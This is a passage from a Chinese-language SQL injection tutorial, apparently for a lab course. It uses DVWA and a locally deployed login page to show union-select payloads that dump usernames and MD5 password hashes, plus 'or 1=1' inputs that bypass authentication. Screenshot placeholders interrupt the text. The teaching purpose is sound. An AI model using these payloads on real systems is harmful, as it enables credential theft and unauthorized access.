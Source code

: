 [图片上传中。。。（14）]
通过上图返回信息，我们再获取到：
dvwa 数据库有两个数据表，分别是 guestbook 和 users .

有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。
由经验我们可以大胆猜测users表的字段为 user 和 password ，所以输入：1' union select user,password from users#
进行查询：
实际执行的 Sql 语句是：
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;

[图片上传中。。。（15）]
可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到www.cmd5.com
进行解密。
直此，同学们应该已经对 Sql 注入有了一个大概得了解，也清楚了 Sql 注入的强大。
4.3 Sql 注入实例二.验证绕过
接下来我们再试试另一个利用 **Sql 漏洞绕过登录验证**的实验。
如下图所示，先下载文件并解压运行：
shiyanlou:~/ $ wget http://labfile.oss.aliyuncs.com/courses/876/sql2.tar.gzshiyanlou:~/ $ tar -zxvf sql2.tar.gzshiyanlou:~/ $ cd sql2shiyanlou:~/ $ sudo apt-get update shiyanlou:~/ $ ./deploy.sh

进入 Firefox 浏览器，输入网址 : localhost/sql2 , 按照下图所示顺序，初始化数据：
[图片上传中。。。（16）]
[图片上传中。。。（17）]
[图片上传中。。。（18）]
[图片上传中。。。（19）]
准备工作完成之后，我们进入首页发现这是一个普通的登录页面，只要输入正确的用户名和密码就能登录成功。
我们先尝试随意输入用户名 123 和密码 123 登录：
[图片上传中。。。（20）]
从错误页面中我们无法获取到任何信息。
看看后台代码如何做验证的：
[图片上传中。。。（21）]
实际执行的操作时：
select * from users where username='123' and password='123'

当查询到数据表中存在同时满足 username 和 password 字段时，会返回登录成功。
按照第一个实验的思路，我们尝试在用户名中输入 123' or 1=1 #
, 密码同样输入 123' or 1=1 #
 ：
[图片上传中。。。（22）]
[图片上传中。。。（23）]
为什么能够成功登陆呢？因为实际执行的语句是：
select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'

按照 Mysql 语法，# 后面的内容会被忽略，所以以上语句等同于（实际上密码框里不输入任何东西也一样）：
select * from users where username='123' or 1=1

由于判断语句 or 1=1 恒成立，所以结果当然返回真，成功登录。
我们再尝试不使用 # 屏蔽单引号，采用手动闭合的方式：
我们尝试在用户名中输入 123' or '1'='1
, 密码同样输入 123' or '1'='1
 （不能少了单引号，否则会有语法错误）：
[图片上传中。。。（24）]
[图片上传中。。。（25）]
实际执行的 Sql 语句是：
select * from users where username='123' or '1'='1' and password='123' or '1'='1`
